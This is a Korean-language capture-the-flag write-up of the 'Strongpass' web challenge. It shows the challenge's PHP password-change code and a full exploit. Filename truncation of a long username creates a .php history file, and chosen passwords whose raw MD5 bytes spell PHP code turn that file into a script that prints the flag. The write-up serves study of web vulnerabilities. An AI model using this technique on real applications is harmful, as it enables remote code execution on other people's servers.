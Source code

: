 # [WEB] Hack Dat Kiwi CTF 2017 - Strongpass

# Description

>   문제 페이지 닫힘

# Analysis

해당 문제는 소스가 주어졌다.

기능은 크게 4가지이며 회원 가입, 로그인, 로그아웃, 패스워드 변경이다.

해당 기능은 `user.php`에 정의되어 있다.

4가지의 기능 중, 로그인이나 로그아웃에서는 취약점이 발생하지 않을 것 같았고, 패스워드 변경에서는 취약점에 발생하게 좋게 생겼다.

패스워드 변경 함수의 소스를 보자

```php
function changepass($oldpass,$newpass)
{
	if (!isset($_SESSION['login'])) return false;
	$userid=$_SESSION['login']['id'];
	if (strlen($newpass)<8) return false;
	if (!sql("select * from users where id=? and password=?",$userid,md5($oldpass)))
		return false;
	if ($newpass===$oldpass) return false;
	function get_password_history()
	{
		$file=password_history_file();
		if (!file_exists($file))
			return [];
		else
			return explode(PHP_EOL,file_get_contents($file)); 
	}
	function password_history_file()
	{
		$username=$_SESSION['login']['username'];
		return realpath(__DIR__."/history")."/".substr("{$username}.pss",0,255);//filename length limit
	}
	//check if password not used before
	$hash=hex2bin(md5($newpass));
	$pass_history=get_password_history();
	foreach ($pass_history as $one_of_old_passes)
		if ($hash===$one_of_old_passes)
			return false;
	array_unshift($pass_history, $hash);
	file_put_contents(password_history_file(), implode(PHP_EOL,$pass_history));
	return sql("update users set password=? where id=?",md5($newpass),$userid);
}
```

우선 변경할 패스워드가 8자리 이상이고, 이전에 사용하지 않은 패스워드여야 변경이 된다.

변경했던 패스워드 내역은 ./history/유저네임.pss 안에 패스워드를 md5 해쉬한 값을 raw값으로 저장한다.

취약점은 이 부분에서 발생한다.

또한 config.php에 flag()함수를 호출하면 flag를 리턴해준다.

# Exploit

1. php command injection upload using changepass

## 1. php command injection using changepass

회원 가입할 때 아이디의 길이를 제한하지 않기 때문에 아이디를 255자보다 길게 가입이 가능하다.

`username=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

아이디를 길게하면 패스워드 변경할 때 저장되는 파일이름을 .php로 저장하여 php를 실행할 수 있게 된다.

`/history/11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

우리가 플래그를 얻기위해 php에 저장할 내용은 다음과 같다.

```php+html
<?
	$a=flag;
	$a();
?>
```

이제 md5의 raw값으로 php코드를 만들기 위해 다음 문자열로 시작하는 md5값을 구해보자.

1. <?# : !wo352rgxkf8
2. $a# : G14$W41KER
3. =# : TCCU6IDENTTFD
4. f.# : Bvsycr9n9iwohnja
5. l.# : NIKF0RIDI5
6. a.# : 86dpqerat
7. g;# : dxvoowxIqS4E$
8. $a# : crs3t4bkedkwstf
9. ()# : HAGO580WBYKDLTIVP
10. ;# : Kfmrwgbmncahe
11. ?> : pb5wd26lqed4

변경한 패스워드는 파일에 저장되므로, 위 md5값이 나오는 패스워드를 `?>`부터 역순으로 변경한다.

그러면 최종적으로 아래와 같이 완성된다.

```php+HTML
<?#
  $a#
  =#
  f.#
  l.#
  a.#
  g;#
  $a#
  ()#
  ;#
?>
```

이제 패스워드가 저장된 파일인 `111...1.php`에 접속하면 flag를 얻을 수 있다.



